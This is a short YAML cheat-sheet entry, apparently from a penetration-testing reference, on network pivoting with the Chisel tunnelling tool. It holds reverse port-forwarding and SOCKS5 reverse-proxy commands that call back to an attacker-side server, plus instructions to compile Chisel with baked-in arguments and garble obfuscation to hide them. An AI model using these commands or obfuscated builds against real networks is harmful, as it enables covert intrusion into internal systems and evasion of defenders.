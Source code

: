 ```yaml
---
functions:
  pivoting:
    - description: Chisel Single Port Fowarding
      code: |
        Client
        chisel.exe client <server> R:<port-to-forward>:<server-listening-ip-port>
        chisel.exe client 10.10.14.10:8000 R:445:127.0.0.1:445

        Server
        chisel server -p 8000 --reverse
    - description: Chisel Socks5 Proxy
      code: |
        Client
        chisel.exe client 10.10.14.3:8000 R:socks

        Server
        chisel server -p 8000 --socks5 --reverse
    - description: Compile chisel with arguments
      code: |
        
        var cmdlineArgs string  //add
        func main() {
          cmdArgs := strings.Split(cmdlineArgs, " ")   //add
          os.Args = append(os.Args, cmdArgs...)    //add


        Client
        GOOS=linux garble -literals -seed=random -tiny build -trimpath -ldflags "-s -w -X 'main.cmdlineArgs=client 165.232.113.164:8080 R:socks'"

resources: |
  https://github.com/jpillora/chisel
  https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683
---
```

